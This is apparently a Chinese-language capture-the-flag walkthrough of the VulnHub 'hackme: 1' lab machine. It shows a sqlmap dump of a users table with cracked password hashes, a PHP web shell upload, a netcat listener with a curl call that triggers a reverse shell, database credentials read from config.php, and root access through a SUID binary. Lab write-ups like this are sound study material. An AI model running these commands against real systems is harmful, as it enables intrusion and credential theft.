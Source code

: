# hackme: 1

2025.02.27 https://www.vulnhub.com/entry/hackme-1,330/

这个靶机使用 virtualbox 导入有问题，使用 vmware 可以导入。

[video]()

## Ip

192.168.10.152

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问首页直接跳转到 http://192.168.10.152/login.php 目前没有用户名和密码。

目录扫描发现http://192.168.10.152/uploads/ 里面有个 test.png 图片，图片没隐写。

到注册页面先注册个用户 http://192.168.10.152/register.php 进入到系统后是一个查询功能，可能存在 SQL 注入，将请求数据包保存到 txt 中，然后使用 sqlmap 跑出数据：

```
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapphacking

sqlmap -r req.txt --batch -D webapphacking -T users --dump

+----+--------------+------------+----------------+---------------------------------------------+
| id | name         | user       | address        | pasword                                     |
+----+--------------+------------+----------------+---------------------------------------------+
| 1  | David        | user1      | Newton Circles | 5d41402abc4b2a76b9719d911017c592 (hello)    |
| 2  | Beckham      | user2      | Kensington     | 6269c4f71a55b24bad0f0267d9be5508 (commando) |
| 3  | anonymous    | user3      | anonymous      | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) |
| 10 | testismyname | test       | testaddress    | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 11 | superadmin   | superadmin | superadmin     | 2386acb2cf356944177746fc92523983            | --> Uncrackable
| 12 | test1        | test1      | test1          | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 13 | testtest     | testtest   | testtest       | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
+----+--------------+------------+----------------+---------------------------------------------+
```

superadmin 的密码在线找到为 Uncrackable ，先用一下这个用户进行登陆，看看有哪些特殊权限，发现登陆后能够上传文件，直接上传 php shell 没有被拦截，并且可以在 http://192.168.10.152/uploads/ 中看到，直接访问，把 shell 反弹的 kali 上：

```
nc -lvnp 8888
curl http://192.168.10.152/uploads/8888.php
```

得到反弹的 shell，/var/www/html 中读取到 config.php 中的数据库配置信息：

```
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'hackme1qaz@WSX');
define('DB_NAME', 'webapphacking');
```

同时发现 1 个用户 hackme，但是上面这个数据库的连接密码不是这个用户的。

发现 suid 程序 /home/legacy/touchmenot，运行后直接得到了 root 权限。
